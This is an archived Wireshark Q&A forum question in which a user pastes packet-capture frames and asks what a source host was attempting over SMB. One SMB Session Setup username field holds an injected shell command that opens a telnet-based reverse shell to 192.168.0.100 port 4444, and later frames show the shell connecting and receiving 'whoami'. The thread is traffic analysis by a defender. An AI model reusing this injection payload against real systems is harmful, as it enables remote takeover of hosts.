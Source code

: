 +++
type = "question"
title = "Smb protocol analysis"
description = '''hi,  From my pcap file, I got the following portion of information but not sure what the source IP is trying to achieve.   frame time src ip dest ip protocol src port dest port infor  21769 147.373996 192.168.0.100 192.168.0.101 SMB 54500 139 Session Setup AndX Request, User: .&#92;/=`nohup sh -c &#x27;(slee...'''
date = "2015-02-27T09:57:00Z"
lastmod = "2015-02-27T14:41:00Z"
weight = 40137
keywords = [ "smb", "analysis" ]
aliases = [ "/questions/40137" ]
osqa_answers = 0
osqa_accepted = false
+++

<div class="headNormal">

# [Smb protocol analysis](/questions/40137/smb-protocol-analysis)

</div>

<div id="main-body">

<div id="askform">

<table id="question-table" style="width:100%;"><colgroup><col style="width: 50%" /><col style="width: 50%" /></colgroup><tbody><tr class="odd"><td style="width: 30px; vertical-align: top"><div class="vote-buttons"><span id="post-40137-upvote" class="ajax-command post-vote up" rel="nofollow" title="I like this post (click again to cancel)"> </span><div id="post-40137-score" class="post-score" title="current number of votes">0</div><span id="post-40137-downvote" class="ajax-command post-vote down" rel="nofollow" title="I dont like this post (click again to cancel)"> </span> <span id="favorite-mark" class="ajax-command favorite-mark" rel="nofollow" title="mark/unmark this question as favorite (click again to cancel)"> </span><div id="favorite-count" class="favorite-count"></div></div></td><td><div id="item-right"><div class="question-body"><p>hi, From my pcap file, I got the following portion of information but not sure what the source IP is trying to achieve.</p><p><code> frame   time            src ip          dest ip        protocol  src port dest port  infor  21769   147.373996  192.168.0.100   192.168.0.101   SMB 54500   139 Session Setup AndX Request, User: .\/=`nohup sh -c '(sleep 3807|telnet 192.168.0.100 4444|while : ; do sh &amp;&amp; break; done 2&gt;&amp;1|telnet 192.168.0.100 4444 &gt;/dev/null 2&gt;&amp;1 &amp;)'` 21770   147.394553  192.168.0.101   192.168.0.100   TCP 57926   4444    57926→4444 [SYN] Seq=0 Win=5840 Len=0 MSS=1460 SACK_PERM=1 TSval=6036562 TSecr=0 WS=32  0x0002 21771   147.394664  192.168.0.100   192.168.0.101   TCP 4444    57926   4444→57926 [SYN, ACK] Seq=0 Ack=1 Win=14480 Len=0 MSS=1460 SACK_PERM=1 TSval=13805079 TSecr=6036562 WS=1024 0x0012 21772   147.395838  192.168.0.101   192.168.0.100   TCP 57926   4444    57926→4444 [ACK] Seq=1 Ack=1 Win=5856 Len=0 TSval=6036562 TSecr=13805079    0x0010 21773   147.406146  192.168.0.101   192.168.0.100   TCP 57927   4444    57927→4444 [SYN] Seq=0 Win=5840 Len=0 MSS=1460 SACK_PERM=1 TSval=6036563 TSecr=0 WS=32  0x0002 21774   147.406244  192.168.0.100   192.168.0.101   TCP 4444    57927   4444→57927 [SYN, ACK] Seq=0 Ack=1 Win=14480 Len=0 MSS=1460 SACK_PERM=1 TSval=13805081 TSecr=6036563 WS=1024 0x0012 21775   147.407522  192.168.0.101   192.168.0.100   TCP 57927   4444    57927→4444 [ACK] Seq=1 Ack=1 Win=5856 Len=0 TSval=6036563 TSecr=13805081    0x0010 21776   147.407694  192.168.0.101   192.168.0.100   TCP 57927   4444    57927→4444 [PSH, ACK] Seq=1 Ack=1 Win=5856 Len=39 TSval=6036563 TSecr=13805081  sh line 1 : Trying : command not found 21777   147.407721  192.168.0.100   192.168.0.101   TCP 4444    57927   4444→57927 [ACK] Seq=1 Ack=40 Win=15360 Len=0 TSval=13805082 TSecr=6036563 21778   147.410351  192.168.0.101   192.168.0.100   TCP 139 54500   139→54500 [ACK] Seq=102 Ack=376 Win=6880 Len=0 TSval=6036564 TSecr=13805073 21779   147.427226  192.168.0.101   192.168.0.100   TCP 57927   4444    57927→4444 [PSH, ACK] Seq=40 Ack=1 Win=5856 Len=42 TSval=6036565 TSecr=13805082 sh: line 2: Connected: Command not found 21780   147.427309  192.168.0.100   192.168.0.101   TCP 4444    57927   4444→57927 [ACK] Seq=1 Ack=82 Win=15360 Len=0 TSval=13805087 TSecr=6036565 21781   147.440335  192.168.0.101   192.168.0.100   TCP 57927   4444    57927→4444 [PSH, ACK] Seq=82 Ack=1 Win=5856 Len=39 TSval=6036567 TSecr=13805087  sh: line 3:Escape: command not found 21782   147.440457  192.168.0.100   192.168.0.101   TCP 4444    57927   4444→57927 [ACK] Seq=1 Ack=121 Win=15360 Len=0 TSval=13805090 TSecr=6036567  21783   147.448315  192.168.0.101   192.168.0.100   SMB 139 54500   Session Setup AndX Response, Error: STATUS_LOGON_FAILURE 21784   147.486578  192.168.0.100   192.168.0.101   TCP 54500   139 54500→139 [ACK] Seq=376 Ack=141 Win=15360 Len=0 TSval=13805102 TSecr=6036567 21785   147.663484  192.168.0.100   192.168.0.101   TCP 4444    57926   4444→57926 [PSH, ACK] Seq=1 Ack=1 Win=15360 Len=23 TSval=13805146 TSecr=6036562 echo X nxb0Jq26W1POGYH 21786   147.664095  192.168.0.101   192.168.0.100   TCP 57926   4444    57926→4444 [ACK] Seq=1 Ack=24 Win=5856 Len=0 TSval=6036589 TSecr=13805146 21787   147.664294  192.168.0.101   192.168.0.100   TCP 57927   4444    57927→4444 [PSH, ACK] Seq=121 Ack=1 Win=5856 Len=18 TSval=6036589 TSecr=1380509 XnXb0J q26w1POGYH 21788   147.664321  192.168.0.100   192.168.0.101   TCP 4444    57927   4444→57927 [ACK] Seq=1 Ack=139 Win=15360 Len=0 TSval=13805146 TSecr=6036589 21789   147.668188  192.168.0.100   192.168.0.101   TCP 4444    57927   4444→57927 [PSH, ACK] Seq=1 Ack=139 Win=15360 Len=23 TSval=13805147 TSecr=6036589   echo X nxb0Jq26W1POGYH 21790   147.668708  192.168.0.101   192.168.0.100   TCP 57927   4444    57927→4444 [ACK] Seq=139 Ack=24 Win=5856 Len=0 TSval=6036589 TSecr=13805147 21791   148.989787  192.168.0.100   192.168.0.101   TCP 54500   139 54500→139 [RST, ACK] Seq=376 Ack=141 Win=15360 Len=0 TSval=13805477 TSecr=6036567 21792   152.823638  192.168.0.100   192.168.0.101   TCP 4444    57926   4444→57926 [PSH, ACK] Seq=24 Ack=1 Win=15360 Len=7 TSval=13806436 TSecr=6036589 whoami</code></p><p>regards george</p></div><div id="question-tags" class="tags-container tags"><span class="post-tag tag-link-smb" rel="tag" title="see questions tagged &#39;smb&#39;">smb</span> <span class="post-tag tag-link-analysis" rel="tag" title="see questions tagged &#39;analysis&#39;">analysis</span></div><div id="question-controls" class="post-controls"></div><div class="post-update-info-container"><div class="post-update-info post-update-info-user"><p>asked <strong>27 Feb '15, 09:57</strong></p><img src="https://secure.gravatar.com/avatar/ee86865607d3291a73854cd35e421022?s=32&amp;d=identicon&amp;r=g" class="gravatar" width="32" height="32" alt="Geos&#39;s gravatar image" /><p><span>Geos</span><br />
<span class="score" title="1 reputation points">1</span><span title="1 badges"><span class="badge1">●</span><span class="badgecount">1</span></span><span title="1 badges"><span class="silver">●</span><span class="badgecount">1</span></span><span title="1 badges"><span class="bronze">●</span><span class="badgecount">1</span></span><br />
<span class="accept_rate" title="Rate of the user&#39;s accepted answers">accept rate:</span> <span title="Geos has no accepted answers">0%</span> </br></p></div><div class="post-update-info post-update-info-edited"><p><span> edited <strong>27 Feb '15, 10:48</strong> </span></p><img src="https://secure.gravatar.com/avatar/d2a7e24ca66604c749c7c88c1da8ff78?s=32&amp;d=identicon&amp;r=g" class="gravatar" width="32" height="32" alt="grahamb&#39;s gravatar image" /><p><span>grahamb ♦</span><br />
<span class="score" title="19834 reputation points"><span>19.8k</span></span><span title="3 badges"><span class="badge1">●</span><span class="badgecount">3</span></span><span title="30 badges"><span class="silver">●</span><span class="badgecount">30</span></span><span title="206 badges"><span class="bronze">●</span><span class="badgecount">206</span></span></p></div></div><div id="comments-container-40137" class="comments-container"><span id="40141"></span><div id="comment-40141" class="comment"><div id="post-40141-score" class="comment-score"></div><div class="comment-text"><p>Can you share a capture in a publicly accessible spot, e.g. <a href="http://cloudshark.org">CloudShark</a>?</p></div><div id="comment-40141-info" class="comment-info"><span class="comment-age">(27 Feb '15, 14:41)</span> <span class="comment-user userinfo">Jaap ♦</span></div></div></div><div id="comment-tools-40137" class="comment-tools"></div><div class="clear"></div><div id="comment-40137-form-container" class="comment-form-container"></div><div class="clear"></div></div></td></tr></tbody></table>

</div>

</div>

